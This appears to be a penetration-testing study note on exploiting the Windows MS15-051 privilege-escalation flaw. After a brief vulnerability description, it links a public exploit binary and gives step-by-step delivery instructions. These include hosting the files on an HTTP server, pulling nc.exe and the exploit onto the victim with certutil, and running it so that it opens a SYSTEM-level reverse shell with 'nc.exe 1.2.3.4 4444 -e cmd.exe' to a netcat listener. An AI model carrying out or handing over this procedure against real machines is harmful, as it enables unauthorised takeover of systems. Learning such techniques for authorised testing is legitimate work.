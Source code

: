 # Vunerability description
This security update resolves one publicly disclosed vulnerability and one privately reported vulnerability in the Tracing Feature for Services.  
The vulnerabilities could allow elevation of privilege if an attacker runs a specially crafted application.  
An attacker must have valid logon credentials and be able to log on locally to exploit this vulnerability.  
The vulnerability could not be exploited remotely or by anonymous users.
# Tested payload
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

# Steps to prepare payload
1. Download the zip file -> Extract it to a folder
2. Use the exe file that maches the System Architecture of the victim's machine.

# Steps to exploit
1. Create a simple HTTP file server to host it (see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
2. Also copy nc.exe to this transfer folder
2. From victim's machine, get the nc.exe file and ms*.exe file (using certutil -> see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
4. Run the ms15.exe file  
Assumptions: Attack machine: 1.2.3.4 / already run nc -nvlp 4444    
From Victim's machine: ms15.exe "nc.exe 1.2.3.4 4444 -e cmd.exe"  
From Attack machine - in the nc4444 screen -> will see connection with system privilege. 